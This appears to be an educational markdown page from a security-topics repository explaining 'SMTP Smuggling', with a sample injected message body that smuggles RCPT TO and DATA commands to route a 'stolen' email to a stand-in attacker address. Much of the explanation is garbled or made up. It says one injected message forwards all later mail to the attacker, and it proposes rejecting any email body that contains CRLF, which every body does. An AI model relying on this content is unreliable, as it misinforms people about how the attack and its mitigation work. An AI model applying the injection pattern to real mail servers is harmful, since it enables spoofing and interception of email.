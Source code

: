# SMTP Smuggling


# 👉 Overview

---

### 👀 What ?

SMTP Smuggling is a cyber attack method that exploits the SMTP (Simple Mail Transfer Protocol) to infiltrate, exfiltrate data, or otherwise compromise a system or network.


### 🧐 Why ?

SMTP Smuggling is an important topic because of its potential for serious damage. It can be used to bypass security measures, gain unauthorized access, and steal sensitive data. It is also a stealthy technique, making it difficult to detect and prevent.


### ⛏️ How ?

SMTP Smuggling is performed by exploiting vulnerabilities in the way SMTP servers handle data. The attacker sends specially crafted messages that can trick the server into accepting malicious content. This can be used to deliver malware, exfiltrate data, or even gain control of the server.


### ⏳ When ?

SMTP Smuggling has been known and used by cyber criminals for quite some time. It became more prevalent with the rise of complex web applications and the increasing reliance on email as a communication tool.


# ⚙️ Technical Explanations

---

SMTP, or Simple Mail Transfer Protocol, is a fundamental protocol utilized for sending emails across the internet. The process involves the transmission of messages from one server to another until they eventually reach their intended destination. These transmissions, however, can be vulnerable to a cyber attack method known as SMTP Smuggling.

SMTP Smuggling is an attack strategy that exploits the way SMTP servers interpret and handle data. The attacker sends uniquely crafted messages, which can deceive the server into accepting malicious content. This tactic can be employed to deliver malware, extract data, or even gain control of the server itself. The manipulation of data interpretation can lead the server to behave in unforeseen ways, such as executing arbitrary code, accepting unauthorized messages, or unintentionally revealing sensitive information.

SMTP Smuggling has been a known method utilized by cyber criminals for some years now. Its use has grown in prevalence with the evolution of intricate web applications and the increasing dependence on email as a means of communication. Due to its stealthy nature, SMTP Smuggling can be difficult to detect and prevent, making it a significant threat to information security. Understanding the mechanics of SMTP Smuggling, its potential for damage, and how to mitigate its risks is crucial in maintaining robust cyber security practices within any organization.

As an example, let's consider an SMTP Smuggling attack that uses the `CRLF` injection vulnerability. Here, `CRLF` stands for Carriage Return Line Feed, which is a sequence of characters used to denote the end of a line of text in many protocols, including SMTP.

1. **Crafting the Message**: The attacker begins by crafting a malicious email. In the body of the email, they include a `CRLF` sequence followed by a command that the SMTP server will interpret as coming from the sender, such as `RCPT TO:<attacker@example.com`. This makes it seem as if the sender of the email is trying to send a copy of the email to `attacker@example.com`.

```
Subject: Test email
From: victim@example.com
To: recipient@example.com
CC:
.
RCPT TO:<attacker@example.com
DATA
Subject: Stolen data
This is the body of the stolen email.
.

```

1. **Sending the Message**: The attacker sends this email to the victim. When the victim's mail server receives the email, it sees the `RCPT TO:<attacker@example.com` command in the body of the email, and assumes it is a valid command from the sender.
2. **Exploitation**: The server then sends a copy of the email, including all headers and the body, to `attacker@example.com`. This allows the attacker to receive a copy of any email sent to `recipient@example.com`, effectively creating a breach of privacy.
3. **Mitigation**: To protect against this vulnerability, mail servers should be configured to reject any email that contains a `CRLF` sequence in the body of the email. Additionally, all user input should be properly sanitized to ensure that no malicious commands can be injected.

Remember, this is a simplified example. Real-world attacks can be much more complex and stealthy. Always follow best practices for securing your SMTP servers to protect against such attacks.
